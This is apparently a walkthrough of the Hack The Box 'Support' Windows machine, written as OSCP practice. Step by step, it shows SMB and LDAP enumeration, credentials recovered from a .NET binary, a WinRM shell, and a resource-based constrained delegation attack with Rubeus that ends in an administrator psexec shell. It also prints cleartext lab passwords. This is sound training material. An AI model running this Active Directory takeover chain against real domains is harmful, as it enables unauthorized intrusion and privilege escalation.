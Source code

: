 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### Recon

#### Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 10.10.11.174
```
Key Ports:
- 53 [DNS](DNS)
- 88 [Kerberos](Kerberos)
- 389 [LDAP](LDAP)
- 445 [SMB](SMB)
- 5985 [WinRM](WinRM.md)

#### Named Contexts from LDAP
```
ldapsearch -h support.htb -x -s base namingcontexts
```
Main context:
```
DC=support,DC=htb
```

#### Hosts File Entries
```
10.10.11.174 dc.support.htb support.htb
```

---

### SMB Enumeration

#### List Shares
```
smbclient -N -L //support.htb
```
Interesting share:
```
support-tools
```

#### Access support-tools
```
smbclient -N //support.htb/support-tools
```
Found:
```
UserInfo.exe.zip
```

---

### Reverse Engineering UserInfo.exe

1. Extracted `UserInfo.exe.zip`
2. Ran `.\UserInfo.exe find -first '*'` to enumerate users
3. Located LDAP bind credentials in C# source via DNSpy:
   - **Username**: `support\ldap`
   - **Password (after decoding)**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### LDAP Search with Credentials
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Found account:
```
support
info: Ironside47pleasure40Watchful
```

### Evil-WinRM Shell as support
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
Got user flag:
```
C:\Users\support\Desktop> type user.txt
```

---

### BloodHound Analysis
- **Group**: Shared Support Accounts
- **Privilege**: GenericAll on `DC.SUPPORT.HTB`

---

### RBCD Attack (Resource-Based Constrained Delegation)

#### Upload tools:
- PowerView.ps1
- PowerMad.ps1
- Rubeus.exe

#### Add Fake Computer
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

#### Set RBCD ACL
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;${fakesid})"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity "DC" -Set @{"msds-allowedtoactonbehalfofotheridentity"=$SDBytes}
```

#### Get Hash and Impersonate
```
Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

---

### Remote Shell as Administrator

#### Export ticket and convert:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

#### Use psexec:
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

Got root flag:
```
C:\Users\Administrator\Desktop> type root.txt
```

---

### Beyond Root: Windows vs Linux Auth

- On Linux, captured cleartext LDAP credentials via Wireshark
- On Windows, NTLMSSP is used and credentials are not in plaintext
- Wireshark shows `simple` vs `sasl` difference in `bindRequest`

---

### Summary
- **Initial Foothold**: Reversed a .NET EXE to extract LDAP creds
- **User Access**: Found support user password in LDAP info field
- **Privilege Escalation**: Performed RBCD by adding a fake computer and impersonating Administrator via S4U2self/S4U2proxy